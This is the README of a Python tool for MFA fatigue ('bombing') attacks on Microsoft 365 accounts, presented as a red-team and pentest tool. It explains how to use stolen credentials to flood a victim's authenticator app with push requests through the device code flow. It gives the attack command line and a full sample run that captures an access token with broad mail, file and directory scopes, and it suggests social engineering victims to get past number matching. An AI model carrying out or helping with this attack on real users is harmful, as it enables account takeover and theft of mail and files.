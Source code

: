 # Microsoft 365 MFA Bombing Script

This Python script automates the authentication process for Microsoft 365 by using the device code flow and Selenium for automated login.
It keeps bombing the user with MFA requests and stores the access_token once the MFA was approved.

It is intended to be used in Social Engineering / Red-Team / Pentesting scenarios when targeting O365/MS-Online users in Azure (now called Entra ID).

In case a username & password combination was compromised it can be used to flood the authenticator app with authentication requests.
Once the second factor has been approved the valid JWT access_token will be stored in decoded and encoded format locally. The token can be reused in other tools like [TokenTactics](https://github.com/f-bader/TokenTacticsV2), [GraphRunner](https://github.com/dafthack/GraphRunner) or manual requesting different endpoints in Azure...

## Applicability
Microsoft used to offer different MFA authentication mechanisms within their authenticator app like:

- Push Notification Approval
- Time-Based One-Time Password (TOTP)
- Phone Sign-in
- Number Matching
- Passwordless Sign-in

As of May 2023 Microsoft mostly disarmed this fatigue bombing attacks by enforcing the number matching mechanism which require the user to manually enter a two digit number which is presented in the browser as part of the login flow. Generally speaking that breaks simple bombing flows as only the victim is posession of the matching number. However one could still retreive the information via real-time social engineering.
If you find environments that still rely on classic push notifications, this attack vector should still work fine. Also I leave it to your own creativity to find applicable scenarios ;-)

## Usage

### Installation

1. Clone this repository.

2. Install the required dependencies by running:

   ```bash
   pip install -r requirements.txt
    ```

### Running the Script
To run the script, execute the following command:

```bash

python m365-fatigue.py --user <username> [--password <password>] [--interval <seconds> (default: 60)]
````

Replace <username> with the target Microsoft 365 username. The password can be provided directly after the --password flag, or the script will prompt for it if not supplied.

The --interval flag allows you to set the polling interval in seconds (default is 60 seconds).

### Sample output

```bash
m365-fatigue python3 m365-fatigue.py --user user@domain.com
Enter your password: 
[*] Username: user@domain.com
[*] Password: ********************************
[*] Device code:
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code GKZAQ433Q to authenticate.
Bei Ihrem Konto anmelden
https://login.microsoftonline.com/common/oauth2/deviceauth
https://login.microsoftonline.com/common/oauth2/deviceauth
Base64 encoded JWT access_token:
eyJ0 ... [dedacted] ... dsgHmA
Decoded JWT payload:
{
    "aud": "https://graph.microsoft.com",
    "iss": "https://sts.windows.net/90931373-6ad6-49cb-9d8c-22eebb6968fa/",
    "iat": 1701428346,
    "nbf": 1701428346,
    "exp": 1701433450,
    "acct": 0,
    "acr": "1",
    "aio": " ... [dedacted] ... ",
    "amr": [
        "pwd",
        "mfa"
    ],
    "app_displayname": "Microsoft Office",
    "appid": " ... [dedacted] ... ",
    "appidacr": "0",
    "family_name": " ... [dedacted] ... ",
    "given_name": " ... [dedacted] ... ",
    "idtyp": "user",
    "ipaddr": " ... [dedacted] ... ",
    "name": " ... [dedacted] ... ",
    "oid": " ... [dedacted] ... ",
    "onprem_sid": " ... [dedacted] ... ",
    "platf": "3",
    "puid": " ... [dedacted] ... ",
    "rh": " ... [dedacted] ... ",
    "scp": "AuditLog.Read.All Calendar.ReadWrite Calendars.Read.Shared Calendars.ReadWrite Contacts.ReadWrite DataLossPreventionPolicy.Evaluate Directory.AccessAsUser.All Directory.Read.All Files.Read Files.Read.All Files.ReadWrite.All Group.Read.All Group.ReadWrite.All InformationProtectionPolicy.Read Mail.ReadWrite Notes.Create Organization.Read.All People.Read People.Read.All Printer.Read.All PrintJob.ReadWriteBasic SensitiveInfoType.Detect SensitiveInfoType.Read.All SensitivityLabel.Evaluate Tasks.ReadWrite TeamMember.ReadWrite.All TeamsTab.ReadWriteForChat User.Read.All User.ReadBasic.All User.ReadWrite Users.Read",
    "sub": " ... [dedacted] ... ",
    "tenant_region_scope": "EU",
    "tid": " ... [dedacted] ... ",
    "unique_name": " ... [dedacted] ... ",
    "upn": " ... [dedacted] ... ",
    "uti": " ... [dedacted] ... ",
    "ver": "1.0",
    "wids": [
        " ... [dedacted] ... "
    ],
    "xms_tcdt":  ... [dedacted] ... ,
    "xms_tdbr": "EU"
}
[*] Successful authentication. Access token expires at: 2023-12-01 12:24:10
[*] Storing token...
Stored Base64 encoded access token as 'access_token_user@domain.com_20231201120406.txt'
Stored decoded access token as 'access_token_user@domain.com_20231201120406.json'
Exiting...
```

## TODO
The fireprox implementation is yet not finished and may or may not be implemented in the future...

# Notes
This script utilizes Selenium, which requires a compatible WebDriver (in this case, Chrome WebDriver... but you can change it towards something else if you need to).

# Credits & Acknowledgements
Heavily inspired by the awesome work of Steve Borosh ([@rvrsh3ll](https://github.com/rvrsh3ll)) and Beau Bullock ([@dafthack](https://github.com/dafthack)). Huge kudos to them for all the awesome research and tooling they release.

# License
This project is licensed under the [MIT License](https://chat.openai.com/c/LICENSE).

